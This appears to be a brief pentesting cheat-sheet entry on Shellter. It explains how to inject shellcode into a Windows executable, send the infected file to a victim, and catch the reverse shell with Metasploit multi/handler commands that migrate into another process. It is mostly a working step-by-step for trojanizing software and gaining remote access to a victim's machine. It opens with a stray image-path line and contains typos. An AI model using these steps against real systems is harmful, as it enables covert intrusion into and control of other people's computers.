 # Shellter

> Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created. It can be used in order to inject shellcode into native Windows applications.

Once Shellter is spawned we can set Automatic or Manual mode. Once selected the mode, we will provide a PE which the Shellter will embed our payload. After transfering the malicious PE to the victim, we can set up a listener along with an AutoScript to migrate into another proccess to grain a reverse shell:

```bash
use multi/handler

set payload $PAYLOAD

set AutoRunScript post/windows/manage/migrate
```

**Note:** Some PE will show an integrity check error when executed.Take this in mind.
